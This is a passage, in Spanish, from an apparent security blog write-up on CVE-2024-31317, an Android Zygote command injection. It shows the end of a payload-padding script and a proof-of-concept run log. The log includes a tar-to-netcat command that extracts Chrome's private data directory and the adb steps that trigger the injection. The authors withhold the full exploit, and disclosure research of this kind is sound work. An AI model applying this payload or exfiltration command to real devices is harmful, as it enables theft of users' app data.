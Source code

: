 payload = str(len(bottom_padding) + 10) + payload[4:]

# payload final
payload = top_padding + payload + bottom_padding
{% endhighlight %}

Aunque el tamaño del *buffer* de Zygote varía en Android 13 y 14, los valores de Android 12 también funcionan allí.

No publicaremos el exploit completo; quien desee el código puede escribirnos explicando sus motivaciones.

---

### Ejecución de la prueba de concepto

```bash
$ ./poc1.py
usage: python ./poc1.py [mode: exec | extract] [app to impersonate]
Modes:
  exec     executes a bash command
  extract  extracts entire directory of the app
App to impersonate:
  The full name of the app as in com.example.app

$ ./poc1.py extract com.android.chrome
-> Trying to exploit CVE-2024-31317 (Zygote command injection).
-> android version: 14
-> android SDK version: 34
-> android serial number: EMULATOR35X4X9X0
-> Extract /data/user/0/com.android.chrome/ to com.android.chrome.tar
-> Making payload for com.android.chrome on Android 14
-> command: tar --create --file=- /data/user/0/com.android.chrome/ | nc -w 3 localhost 31337
-> Got user ID: 10150
-> Bottom padding len = 3757
-> Top padding len = 8193
-> Copy payload to /data/local/tmp/payload.txt
-> Close settings app if open
-> Start adb shell
-> Set hidden_api_blacklist_exemptions global setting with the payload
-> Start Settings App to _move_ zygote
Starting: Intent { act=android.settings.SETTINGS }
-> Set hidden_api_blacklist_exemptions to null to avoid problems when rebooting the phone
-> Delete payload from phone.
-> Done extracting. Check com.android.chrome.tar

$ ls -al
total 6964
drwxr-xr-x 3 xxx xxx  4096 abr 22 16:04 .
drwxr-xr-x 5 xxx xxx  4096 abr 19 13:25 ..
-rw-r--r-- 1 xxx xxx 6923776 abr 22 16:04 com.android.chrome.tar
…
```
&nbsp;
Hemos logrado una **explotación universal**, y eso nos hace muy felices :-).
